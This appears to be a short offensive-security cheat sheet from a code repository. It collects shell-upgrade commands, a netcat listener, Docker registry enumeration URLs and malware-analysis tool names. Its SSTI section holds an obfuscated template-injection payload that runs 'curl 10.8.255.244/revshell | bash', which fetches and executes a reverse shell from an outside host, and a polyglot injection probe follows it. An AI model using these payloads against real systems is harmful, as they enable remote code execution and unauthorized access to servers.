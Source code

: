 # OG Hacker Tools
This repository contains tools used for various types of hacking, and basic information about their usage.

## Upgrade Shell

### Option 1
``` 
python3 -c 'import pty;pty.spawn("/bin/bash")'
export TERM=xterm
stty raw -echo; fg
```

### Option 2
```
rlwrap nc -lvnp 9001
stty raw -echo; fg
```

## Static Binaries

https://github.com/andrew-d/static-binaries

## Enumerate Docker Repository

GET Requests

```
http://WEBSITENAME.COM:5000/v2/_catalog
http://WEBSITENAME.COM:5000/v2/REPOSITORY/NAME/tags/list
http://WEBSITENAME.COM:5000/v2/REPOSITORY/NAME/manifests/TAG_NAME
```


## Malware Analysis

PECheck - See info on PEHeader

PETree - See info on PeHeader in a GUI

Cuckoo Sandbox - https://cuckoosandbox.org/ 

REMnux - Distro for analysis of malware

## SSTI - Server Side Template Injection

Example in Python:
```
{{request|attr("application")|attr("\x5f\x5fglobals\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fbuiltins\x5f\x5f")|attr("\x5f\x5fgetitem\x5f\x5f")("\x5f\x5fimport\x5f\x5f")("os")|attr("popen")("curl 10.8.255.244/revshell | bash")|attr("read")()}}
```

Polyglot:
```
Polyglot: ${{<%[%'"}}%\.
```


## Red Team Toolkit

https://github.com/infosecn1nja/Red-Teaming-Toolkit#Payload%20Development
